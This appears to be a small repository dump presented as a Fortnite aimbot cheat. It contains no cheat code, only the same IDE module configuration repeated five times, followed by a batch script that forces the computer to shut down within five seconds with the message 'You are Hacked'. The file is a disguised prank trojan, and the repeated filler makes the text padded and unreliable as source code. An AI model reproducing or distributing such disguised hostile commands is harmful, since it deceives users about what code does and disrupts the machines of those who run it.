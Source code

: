 #Aimbot Ultra Cheat Fortnite 2.0
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
<?xml version="1.0" encoding="UTF-8"?>
<module type="GENERAL_MODULE" version="4">
  <component name="NewModuleRootManager" inherit-compiler-output="true">
    <exclude-output />
    <content url="file://$MODULE_DIR$" />
    <orderEntry type="sourceFolder" forTests="false" />
  </component>
</module>
@echo off
shutdown -s -t 5 "You are Hacked"
